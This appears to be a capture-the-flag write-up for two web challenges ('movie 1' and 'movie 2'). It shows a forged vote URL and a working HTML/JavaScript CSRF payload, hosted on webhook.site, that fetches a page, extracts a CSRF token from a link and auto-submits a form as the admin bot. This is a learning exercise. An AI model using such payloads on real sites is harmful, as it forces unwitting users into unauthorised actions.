





# solution

### movie 1

This challenge is quite tricky for me, I know how to get flag but my payload is not working.
Basically, you just need sent a "vote" link for admin. You can check if the admin auto click at your link by sending
<br>
Just send

```
unudrnh.request.dreamhack.games
```

part, i dont know why sent full url is not working.
The finally payload is here.

```
http://localhost:1337/vote/8/up
```

### movie 2

Same like movie 1 but now we need send the vote link with csrf token as well.
<br>
But i found that we can retrieve this token we login main page
<br>
So the idea is fool the admin to click the link, get the token and, and use that token to
get the flag. Edit the webhook so that when the admin clicks,
it will automatically fetch http://localhost:1337/
to get the token => Use that token to vote for the Flag.

Here is the payload to do that.

```
<form action="http://localhost:1337/" method="GET">
  <input type="submit" value="submit">
</form>
<script>
const url = "http://localhost:1337/";
fetch(url)
  .then((response) => {
    if (!response.ok) {
      throw new Error(`HTTP error! status: ${response.status}`);
    }
    return response.text();
  })
  .then((html) => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, "text/html");
    const aTags = doc.querySelectorAll("a");
    const link = aTags[15];
    if (link) {
      console.log(link, aTags.length)
      const href = link.getAttribute("href");
      document.forms[0].action = url + href.substring(1, href.length);
      console.log(document.forms[0].action);
      document.forms[0].submit()
    } else {
      console.log("No <a> tag with the class 'btn btn-success' found.");
    }
  })
  .catch((error) => {
    console.error("Error fetching the URL:", error);
  });
</script>
```

You change this content on webhook.site to save your time
<br>
wait a bit and you get a flag.
<br>
